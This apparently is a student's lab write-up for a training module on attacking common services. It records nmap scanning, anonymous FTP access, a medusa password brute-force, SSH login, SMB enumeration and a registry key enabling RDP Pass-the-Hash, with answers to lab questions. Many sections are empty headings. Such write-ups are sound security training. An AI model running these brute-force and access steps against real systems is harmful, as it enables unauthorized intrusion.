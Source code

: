 # Attacking Common Services

<figure><img src=".gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

## FTP

### Attacking FTP

**What port is the FTP service running on?**

* `nmap 10.129.27.170 -sVC`
  * FTP on port 2121

**What username is available for the FTP server?**

`ftp anonymous@<IP> 2121`

`get users.list`&#x20;

`get passwords.list`

* try users from the list...
  * second one (robin) working

**Use the discovered username with its password to login via SSH and obtain the flag.txt file. Submit the contents as your answer.**

`medusa -u robin -P passwords.list -h 10.129.205.248 -n 2121 -M ftp`

`ssh robin@10.129.205.248`

* PW
* cat flag.txt

## SMB

### Attacking SMB

`smbclient -L //10.129.205.248/`

`smbmap -H 10.129.205.248`

<figure><img src=".gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>



## SQL Databases

### Attacking SQL Databases

## RDP

### Attacking RDP

<figure><img src=".gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

* connect via RDP

**What is the name of the file that was left on the Desktop? (Format example: filename.txt)**

* pentest-notes.txt

**Which registry key needs to be changed to allow Pass-the-Hash with the RDP protocol?**

* DisableRestrictedAdmin

**Connect via RDP with the Administrator account and submit the flag.txt as you answer.**

*

## DNS

### Attacking DNS

## SMTP

### Attacking Email Services

## Skills Assessment

### Easy

### Medium

### Hard
